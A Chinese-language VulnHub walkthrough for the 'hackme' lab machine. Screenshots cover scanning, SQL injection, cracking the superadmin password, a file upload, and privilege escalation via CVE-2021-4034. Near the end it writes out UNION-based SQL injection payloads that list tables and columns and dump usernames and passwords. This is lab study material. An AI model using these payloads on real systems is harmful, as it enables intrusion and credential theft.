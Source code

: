 +++
title = '0x045 hackme'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



# 端口扫描

![](/vulnhub_img/WEBRESOURCEd1cbf554d8355862b3021bb89beeff36image.png)

![](/vulnhub_img/WEBRESOURCEfbe85a19601dd4ab45658e125c479a22image.png)

# 渗透

![](/vulnhub_img/WEBRESOURCE2ca59bd6ad66b614526f86153da62412image.png)

注册一个账号：

登录：

![](/vulnhub_img/WEBRESOURCEf01c1126efd226c4623af26d1209548eimage.png)

这里说来惭愧，又是因为懒病，放弃了手动注入，：

![](/vulnhub_img/WEBRESOURCE131691fd40e674bf20ece71bbd03e30aimage.png)

破解superadmin的密码：

![](/vulnhub_img/WEBRESOURCE951d4c0e6f55607b087e322c763d127aimage.png)

![](/vulnhub_img/WEBRESOURCE07a00374def5f424c41f7d538c337b09image.png)

登录superadmin，发现上传框：

![](/vulnhub_img/WEBRESOURCE793b853904c8b04c69af14eeab91e1e9image.png)

![](/vulnhub_img/WEBRESOURCE02474309031324a3ef3009fd3751ae87image.png)

![](/vulnhub_img/WEBRESOURCEd021cc4c7bd9b7caef5258b5637652a2image.png)

# 提权

2021-4034

![](/vulnhub_img/WEBRESOURCEd376626b8072310083501b60ebbcddf3image.png)

SUID

![](/vulnhub_img/WEBRESOURCEa8c319e467a607c10f3e5cbe807c550bimage.png)

补一下手动注入：

Security ' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="webapphacking"#

表名：webapphacking

books,users

![](/vulnhub_img/WEBRESOURCE4b8aadd8c45cb8915003cc95318e9b9eimage.png)

列名：

Security ' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'#

USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,user,pasword,name,address

![](/vulnhub_img/WEBRESOURCEa276bc3a5cc899df9c190b484f6fdedcimage.png)

Security ' union select 1,2,group_concat(USER,'\n',pasword) from users#

![](/vulnhub_img/WEBRESOURCE4effe1089c2998f430edd3c5d62346f6image.png)